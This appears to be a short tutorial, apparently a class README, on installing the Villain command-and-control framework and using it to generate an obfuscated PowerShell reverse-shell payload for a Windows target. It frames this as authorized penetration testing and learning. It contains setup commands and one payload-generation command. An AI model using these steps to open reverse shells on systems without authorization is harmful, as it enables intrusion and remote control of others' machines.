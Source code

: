 # Villain Framework: Creating a Reverse Shell for Pentesting Windows

The Villain Framework is an open-source command-and-control (C2) framework designed for security researchers and penetration testers. It provides a platform to manage multiple agents, execute payloads, and simulate advanced adversary techniques in red team engagements. Villain supports cross-platform payloads, making it useful for testing the security posture of diverse environments. While powerful, it is intended strictly for ethical use in authorized security assessments and learning, helping professionals understand post-exploitation scenarios and improve defenses.

## Steps to get started with Villain

### 1. <ins>Installation</ins>
- Clone the repo as per the instructions in class:
  ```zsh
  https://github.com/keralahacker/Villain.git
  cd Villain
  ```
- Install the necessary dependencies:
  ```zsh
  sudo apt-get update
  sudo apt install python3-pip python3-dev build-essential libssl-dev libffi-dev
  sudo apt upgrade
  ```
- Create and activate a safe virtual environment to run `Villain.py`:
  ```zsh
  python3 -m venv venv
  source venv/bin/activate
  pip3 install -r requirements.txt
  ```
### 2. <ins>Launch</ins>
- Once in `/Villain`, launch the tool by:
  ```zsh
  sudo python3 Villain.py
  ```

<img width="1920" height="1080" alt="VirtualBox_kali-linux-2025 2-virtualbox-amd64_19_08_2025_05_19_06" src="https://github.com/user-attachments/assets/9716fb8a-73d2-4997-be7e-1c8769bf72d9" />

### 3. <ins>Generate and Execute Paylaod</ins>
- Now, generate a payload for a victim Windows machine using the following command:
  ```zsh
  generate os=windows payload=windows/reverse_tcp/powershell lhost=eth0 obfuscate
  ```
<img width="1047" height="396" alt="VirtualBox_kali-linux-2025 2-virtualbox-amd64_19_08_2025_05_27_43" src="https://github.com/user-attachments/assets/df54b8f1-a858-46c3-832c-93b86aaed3aa" />

